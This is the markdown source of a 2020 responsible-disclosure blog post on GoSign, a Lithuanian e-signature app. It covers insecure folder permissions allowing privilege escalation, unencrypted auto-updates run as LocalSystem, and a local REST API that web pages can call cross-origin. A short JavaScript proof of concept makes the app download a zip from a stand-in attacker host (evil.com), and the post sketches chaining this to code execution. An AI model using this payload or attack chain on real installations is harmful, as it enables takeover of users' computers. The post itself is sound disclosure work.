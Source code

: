 ```yaml
---
layout:     post
title:      "Registrų centras GoSign app vulnerabilities"
date:       2020-12-30 08:00:00
categories: HackAndTell
cover:      gosign_js.png
permalink:  /en/blog/registru-centras-gosign-vulnerabilities
---
```

After reading [an article](https://sec-consult.com/blog/detail/deanonymization-of-lithuanian-e-signature-users/) about a remediated information disclosure vulnerability in [GoSign](https://www.elektroninis.lt/paruosti-kompiuteri/nid-1287) - an e-signature desktop application by the State Enterprise Centre of Registers of Lithuania (Registrų centras), I became curious whether it is vulnerable to the other attack - DNS rebinding. In this blog post I'll review what I've found and what was fixed.

[GoSign](https://www.elektroninis.lt/bylos/elektroninis_lt/Diegliai/GoSignCore.msi) installs two Windows services: GoSign and GoSignMonitor (installed by default) and GoSignUI tray application (optional feature, not installed by default). Both services start on bootup and run with highest privileges possible - LocalSystem. It doesn't matter if the user has the identity card inserted or not.

![Services](gosign_sc.png)

However, the GoSign installer erroneously grants all local users full permissions to `c:\Program Files (x86)\RCSC\GoSign` folder:

![Gosign folder permissions](gosign_acl.png)

This allows regular users to modify the `GoSign.exe` and `GoSignMonitor.exe` (or any dll they load). Since the executables run as LocalSystem it allows for Local Elevation of Privileges (EoP). Even though the issue may be dismissed by private users, in government institutions, where computers are usually managed by technicians and regular users have restricted permissions, this is a valuable vulnerability for EoP by malicious programs.

Instead of fixing the installer to set the correct permissions to the root folder it was attempted to fix the issue in the version 3.3.4.0 by making GoSign service to verify and fix the permissions at runtime:

![Gosign runtime ACL fix](gosign_acl_fix.png)

Firstly, it doesn't work at all, because GoSign attempts to remove an inherited permission. Also it says a lot about internal development and testing processes. Secondly, attempting to make such privileged operations at runtime doesn't make it easier to change the existing GoSign architecture to stop running its services as LocalSystem. All in all, the EoP is still not fixed.

GoSignMonitor is a helper service that calls [http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/Version.txt](http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/Version.txt) and if a new version is available the service downloads [http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/GoSignCore.zip](http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/GoSignCore.zip) and extracts the zip into the installation directory. Yes, over unencrypted connection as LocalSystem. And it does it every 10 minutes. While less likely in case of an office user, in a private user case it opens the computer to a Remote Code Execution (RCE) for an attacker capable of intercepting the unencrypted traffic like in public WIFI network. The GoSign service is stopped before the zip extraction and restarted afterwards. Since the attacker-controlled executable is started as LocalSystem it means a complete computer takeover.

It was attempted to address the issue. The newer version of GoSignMonitor checks for updates and downloads them over HTTPS. Still, because of a mistake the automatic update process extracts the new version of the executable into the wrong folder: `C:\Program Files (x86)\RCSC\GoSign\GoSignMonitor\GoSignMonitor\GoSignMonitor.exe`. This way the existing users of GoSign are left vulnerable and need to manually uninstall the old version and install the version 3.3.4.0 themselves.

Overall, the automatic update architecture of GoSign is overengineered and convoluted. Each service kills and updates the other one. Instead of downloading and starting the new version of GoSign installer the services download specific zip files that contain a selected set of executable files (i.e. without all .NET Core framework dlls they depend on) and overwrite the old files with the extracted ones. The failure to use the standard installer for this task leads to creation of GoSignUI folder with some files in it even if the feature wasn't installed to begin with. Also the fact the update is done silently without an acknowledgment means that by breaking into `downloads.registrucentras.lt` ten minutes later attackers could effectively compromise all computers with GoSign installed.

GoSign is the other installed service that runs a local web server on TCP ports 8000 and 60000. The server exposes the following REST API:

```
GET  /nexu-info
POST /rest/certificates
GET  /rest/certificates
POST /rest/sign 
POST /rest/loadApp
GET  /diagnostics
POST /certs
GET  /certs
POST /multisign
POST /ping
GET  /rest/ping
```

Before version 3.2.2.0 a malicious JavaScript on any web page could call the local server and read its response. In v3.2.2.0 to mitigate the issue the following Cross-Origin Resource Sharing (CORS) list is hardcoded into the service:

```
https://ws.gosign.lt
https://wstest.gosign.lt
https://www.elektroninis.lt
https://test.elektroninis.lt
https://dev.elektroninis.lt
https://mati.registrucentras.lt
https://apptest4.kada.lt
https://appdevel4.kada.lan
```

The common misconception about CORS is that it allows requests to the server only from the selected list. What it really does, it instructs the browser to allow a web page from a selected origin to _**read**_ the server response. Any web page is still able to issue a [simple request](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#Simple_requests) to the web server. The CORS list fixed the issue where malicious pages could read personal information from the inserted identity card. Still, in v3.2.2.0 it was possible to blindly call any of the API.

The `/rest/loadApp` API commands GoSignUI to automatically download a file from the specified `url`, extract it if it is an archive and open in AutoDesk TrueView 2018 or AutoDesk DesignReview 2018 viewer. Proof of Concept:

```html
<script>
  fetch("https://localhost:8000/rest/loadApp", {
    method: 'POST',
    body: 'url=https://evil.com/evil.zip'
  })
</script>
```

An attacker could:

* Force GoSign users to download a [Zip Bomb](https://en.wikipedia.org/wiki/Zip_bomb).  
* Achieve RCE by using a specially crafted DWG or DWF file. It is as simple to exploit one of the [known vulnerabilities in AutoDesk DesignReview 2018](https://www.cvedetails.com/vulnerability-list/vendor_id-3855/product_id-15106/year-2019/opec-1/Autodesk-Design-Review.html) as zipping malicious DWF and DLL files into the same archive. Since GoSignUI runs as a non-privileged process that should reduce the RCE impact. Nevertheless, because of the improper installation folder permissions it is easy to escalate to LocalSystem.  

My recommendation was to implement a `Origin` header check on the server side, but in the version 3.3.4.0 `/rest/loadApp` verifies `Referer` header instead. This is not ideal since the header may be not present, but it should be OK as long as the server rejects requests without `Referer`. Both `Referer` and `Origin` are [forbidden headers](https://developer.cdn.mozilla.net/en-US/docs/Glossary/Forbidden_header_name), i.e. are guaranteed to be not spoofable by malicious sites. However, the check wasn't implemented as .NET Core Middleware, so it is still possible for any web site to call the other API endpoints.

### Timeline

2020.09.25-29 - Contacted [info@gosign.lt](mailto:info@gosign.lt), [info@elektroninis.lt](mailto:info@elektroninis.lt), [info@registrucentras.lt](mailto:info@registrucentras.lt) asking for the security contract.  
2020.10.01 - A report was sent to [pagalba@elektroninis.lt](mailto:pagalba@elektroninis.lt).  
2020.10.01 - The report was acknowledged.  
2020.12.21 - Received an email that v3.3.4.0 with the fixes was released.  
2020.12.28 - Vendor was notified about the not fixed issues.  
2020.12.30 - Disclosure deadline reached.  
